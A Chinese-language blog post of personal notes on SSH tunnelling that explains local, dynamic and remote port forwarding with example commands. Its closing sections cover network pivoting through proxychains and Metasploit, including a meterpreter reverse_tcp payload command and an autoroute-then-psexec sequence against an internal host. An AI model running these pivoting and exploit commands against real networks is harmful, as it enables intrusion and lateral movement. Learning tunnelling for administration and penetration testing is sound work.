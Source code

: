 ```yaml
---
title: 端口转发之SSH隧道
date: 2018-01-17 15:20:00
categories:
   - 技术相关
tags:
   - 端口转发
   - SSH隧道
   - 笔记
#summary_img: /images/pic1.jpg
---
```

.....
<!-- more -->

## ssh隧道有3种类型
    动态端口转发（Socks 代理）
    本地端口转发
    远程端口转发


## 本地端口转发

通过SSH隧道，将一个远端机器能够访问到的地址和端口，映射为一个本地的端口。

已知主机A可以连接主机B，但无法连接主机C。A主机需要访问C主机的VNC服务（5900端口）

    host1 : 本地主机
    host2 : 远程主机（目的主机）
    host3 : 

    host1  <-> host2  (都不通)
    host3同时连通前面两台主机
    host1  -> host2   (最终目的)

想法就是，通过host3，将host1连上host2

我们在host1执行下面的命令：

	$ ssh -L 2121:host2:21 host3
    
命令中的L参数一共接受三个值，分别是"本地端口:目标主机:目标主机端口"，它们之间用冒号分隔。

这条命令的意思，就是指定SSH绑定本地端口2121，然后指定host3将所有的数据，

转发到目标主机host2的21端口（假定host2运行FTP，默认端口为21）。

这样一来，在host1连接本地的2121端口，就等于连上了host2的21端口。

	$ ftp localhost:2121
	$ ssh -p 2121 localhost   (21端口改为22)

优点

	无需设置代理
    
缺点

	每个服务都需要配置不同的端口转发

	
	
## 动态端口转发
既然SSH可以传送数据，那么我们可以让那些不加密的网络连接，全部改走SSH连接，从而提高安全性

动态端口允许通过配置一个本地端口，把通过隧道到数据转发到远端的所有地址。

本地的应用程序需要使用Socks协议与本地端口通讯。此时SSH充当Socks代理服务器的角色。

假定我们要让8080端口的数据，都通过SSH传向远程主机：

	$ ssh -D 8080 user@host

SSH会建立一个socket，去监听本地的8080端口。一旦有数据传向那个端口，就自动把它转移到

SSH连接上面，发往远程主机。

可以想象，如果8080端口原来是一个不加密端口，现在将变成一个加密端口。

优点

	配置一个代理服务就可以访问远端机器和与其所在子网络的所有服务
缺点

	应用程序需要额外配置SOCKS代理，若应用程序不支持代理配置则无法使用


## 远程端口转发
远程端口转发用于某些单向阻隔的内网环境，比如说NAT，网络防火墙。
在NAT设备之后的内网主机可以直接访问公网主机，但外网主机却无法访问内网主机的服务。
如果内网主机向外网主机建立一个远程转发端口，就可以让外网主机通过该端口访问该内网主机的服务。
可以把这个内网主机理解为“内应”和“开门者”。

	host1 ： 外网机器
	host2 ： 目的主机
	host3 ： 内网机器
	host3  -> host1  (通)
	host1  -> host3  (不通)
	host1  -> host2  (最终目的)

解决办法是，既然host3可以连host1，那么就从host3上建立与host1的SSH连接，然后在host1上使用这条连接就可以了

在host3执行下面的命令：

	$ ssh -R 2121:host2:22 root@host1
	-R : "远程主机端口:目标主机:目标主机端口"。

host1监听它自己的2121端口，然后将所有数据经由host3，转发到host2的21端口。
由于对于host3来说，host1是远程主机，所以这种情况就被称为"远程端口绑定"。
在host1就可以连接host2了：

	$ ssh localhost:2121

如果host3是目的主机的话，即源主机是目的主机，我们的目的是host1->host3 (通)
则：
	在host3上执行： ssh -NfR 2121:localhost:22 user@host1 -p 22
	将host3的22端口和host1的2121端口绑定，相当于远程端口映射
	在host1就可以连接host3了：

		$ ssh localhost -p 2121

	也可以在host2上：

		$ ssh host1 -p 2121
	
优点

	可以穿越防火墙和NAT设备
缺点

	每个服务都需要配置不同的端口转发

	
如何禁止端口转发

设置ssh服务配置文件/etc/ssh/sshd_config

	AllowTcpForwarding no


## 简而言之
	http://staff.washington.edu/corey/fw/ssh-port-forwarding.html

	本地访问127.0.0.1:port1就是host:port2(用的更多)
	ssh -CfNg -L port1:127.0.0.1:port2 user@host    #本地转发

	访问host:port2就是访问127.0.0.1:port1
	ssh -CfNg -R port2:127.0.0.1:port1 user@host    #远程转发

	可以将dmz_host的hostport端口通过remote_ip转发到本地的port端口
	ssh -qTfnN -L port:dmz_host:hostport -l user remote_ip   #正向隧道，监听本地port

	可以将dmz_host的hostport端口转发到remote_ip的port端口
	ssh -qTfnN -R port:dmz_host:hostport -l user remote_ip   #反向隧道，用于内网穿透防火墙限制之类

	
## SSH 穿透

	ssh -D 127.0.0.1:1080 -p 22 user@IP 
	Add socks4 127.0.0.1 1080 in /etc/proxychains.conf 
	proxychains commands target 

SSH 穿透从一个网络到另一个网络

	ssh -D 127.0.0.1:1080 -p 22 user1@IP1 
	Add socks4 127.0.0.1 1080 in /etc/proxychains.conf 
	proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2 
	Add socks4 127.0.0.1 1081 in /etc/proxychains.conf 
	proxychains commands target 

使用 metasploit 进行穿透

	route add X.X.X.X 255.255.255.0 1 
	use auxiliary/server/socks4a 
	run 
	proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

或者

	# http://www.offensive-security.com/metasploit-unleashed/pivoting/
	meterpreter > ipconfig 
	IP Address  : 10.1.13.3 
	meterpreter > run autoroute -s 10.1.13.0/24 
	meterpreter > run autoroute -p 
	10.1.13.0          255.255.255.0      Session 1 
	meterpreter > Ctrl+Z 
	msf auxiliary(tcp) > use exploit/windows/smb/psexec 
	msf exploit(psexec) > set RHOST 10.1.13.2 
	msf exploit(psexec) > exploit 
	meterpreter > ipconfig 
	IP Address  : 10.1.13.2 
	

扩展：

	通过VPS SSH隧道使用本地msf
	https://evi1cg.me/archives/Port_Forward_using_VPS_SSH_Tunnel.html


from :
	三种不同类型的ssh隧道
	http://hetaoo.iteye.com/blog/2299123
	ssh用法及命令
	http://blog.csdn.net/pipisorry/article/details/52269785
	ssh隧道建立
	http://blog.csdn.net/yuanchao99/article/details/72877586
    	xxxx
    	https://xianzhi.aliyun.com/forum/topic/142
	SSH隧道综合指南
	https://www.4hou.com/technology/10863.html

